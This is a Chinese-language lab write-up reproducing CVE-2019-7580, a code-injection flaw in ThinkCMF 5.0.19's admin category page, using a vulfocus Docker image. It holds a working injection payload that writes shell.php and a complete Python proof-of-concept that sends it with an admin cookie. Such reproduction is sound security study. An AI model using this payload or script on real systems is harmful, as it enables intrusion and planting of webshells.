 # CVE-2019-7580漏洞复现



## 漏洞简介

ThinkCMF 是一款支持[Swoole](https://so.csdn.net/so/search?q=Swoole&spm=1001.2101.3001.7020)的开源内容管理框架(CMF),基于ThinkPHP开发. thinkcmf 5.0.19 这个版本后台提供路由自定义，远程攻击者攻击者可通过向portal/admin_category/addpost.html页面发送‘别名’参数利用该漏洞注入任意代码。



## 环境介绍

拉取 vulfocus 现有镜像，并运行到 80 端口。

docker-compose.yml

```yml
version: '3'
services:
  thinkcmf:
    image: vulfocus/thinkcmf-cve_2019_7580
    ports:
      - 80:80
```



## 复现过程

启动环境。

![image-20230727214003016](img/image-20230727214003016.png)

使用账号密码：admin/123456 登陆成功。

![image-20230727214558454](img/image-20230727214558454.png)

登陆成功后，在门户管理->分类管理->添加分类处的分类别名处添加payload .

```
1'=>array(""),file_put_contents('shell.php','<?php phpinfo();?>'),'2
```

![image-20230727224332274](img/image-20230727224332274.png)

点击添加后会在根目录下生成 shell.php .

![image-20230727225233733](img/image-20230727225233733.png)

编写poc：

```python
import requests
import sys


def send_request(host, cookie):
    url = f"http://{host}/portal/admin_category/addpost.html"
    headers = {
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Origin": f"http://{host}",
        "Referer": f"http://{host}/portal/admin_category/add.html",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Cookie": cookie,
        "Connection": "close"
    }

    payload = {
        "parent_id": "0",
        "name": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "alias": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "description": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "more[thumbnail]": "",
        "seo_title": "",
        "seo_keywords": "",
        "seo_description": "",
        "list_tpl": "list",
        "one_tpl": "article"
    }

    response = requests.post(url, headers=headers, data=payload)
    shell = f"http://{host}/shell.php"
    if "添加成功" in response.text and response.status_code == 200:
        print(f"phpinfo()已写入shell.php，地址为{shell}")
    else:
        print("phpinfo()写入失败")


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage: python poc.py host cookie")
    else:
        host = sys.argv[1]
        cookie = sys.argv[2]
        send_request(host, cookie)
```

脚本中需要host和cookie两个参数，下图可快速获取cookie，cookie中只需要图中三个参数。

![image-20230727235551350](img/image-20230727235551350.png)

执行脚本。

![image-20230728000106793](img/image-20230728000106793.png)

再次成功写入

![image-20230727234147078](img/image-20230727234147078.png)
